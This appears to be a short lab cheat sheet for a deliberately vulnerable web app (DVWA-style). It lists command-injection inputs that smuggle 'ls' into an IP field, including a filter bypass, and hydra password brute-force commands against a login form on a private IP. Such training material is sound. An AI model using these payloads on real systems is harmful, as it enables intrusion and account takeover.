 

## HIGH

IMPOSIBLE


# COMMAND EXEC

## LOW

```bash
127.0.0.1 && ls -ltri
```



## MEDIUM

```bash
127.0.0.1 &;& ls  -ltri
```



## HIGH

IMPOSIBLE

# BRUTE FORCE

## LOW

```bash
hydra 192.168.56.103 -V -l admin -P /usr/share/set/src/fasttrack/wordlist.txt http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=incorrect:H=Cookie: PHPSESSID=723479p8ma122hf3f0hr1n1jn0; security=low"
```



## MEDIUM

```bash
hydra  192.168.56.103 -l admin  -P /usr/share/set/src/fasttrack/wordlist.txt -e ns  -F  -u  -t 4  -w 15  -v  -V http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=incorrect:H=Cookie: PHPSESSID=723479p8ma122hf3f0hr1n1jn0; security=medium"
```



## HIGH
